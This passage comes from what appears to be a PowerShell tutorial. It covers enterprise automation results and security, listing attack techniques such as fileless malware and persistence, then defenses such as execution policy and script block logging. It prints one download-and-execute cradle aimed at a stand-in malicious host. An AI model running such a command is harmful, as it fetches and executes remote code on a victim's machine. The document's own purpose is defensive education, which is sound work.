 Results:
- Deployment time reduced from weeks to hours
- Success rate increased from 72% to 98%
- Full audit trail via logging
- Rollback procedures automated
- Integrated with ServiceNow for ticketing

#### 1.13.2.1 Key Insight

PowerShell didn’t just automate tasks — it transformed governance, reliability, and accountability.

This is not hypothetical. This happened at multiple Fortune 500 companies.

## 1.14 Security Implications: Power and Responsibility

With great power comes great responsibility.

PowerShell can be used maliciously — but so can any administrative tool.

Let’s address security honestly.

### 1.14.1 Attack Vectors Involving PowerShell

Red teams and attackers have exploited PowerShell for:
- Fileless malware: Scripts run directly in memory
- Living-off-the-land: Using legitimate tools for illegitimate purposes
- Lateral movement: Remoting into other machines
- Persistence: Adding startup entries or scheduled tasks

Example malicious line:
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')
```

Downloads and executes code from the internet.

Scary? Yes. Preventable? Absolutely.

### 1.14.2 Defensive Measures

Organizations should implement:

#### 1.14.2.1 Execution Policy
Restrict unsigned scripts:
```powershell
Set-ExecutionPolicy RemoteSigned -Scope LocalMachine
```

Prevents accidental execution of untrusted scripts.

Note: Execution policy is not a security boundary — users can bypass it. It's a safety net, not a firewall.

#### 1.14.2.2 Script Block Logging
Enable in Group Policy:
```
Computer Configuration → Administrative Templates → Windows Components → PowerShell → Turn On PowerShell Script Block Logging
```

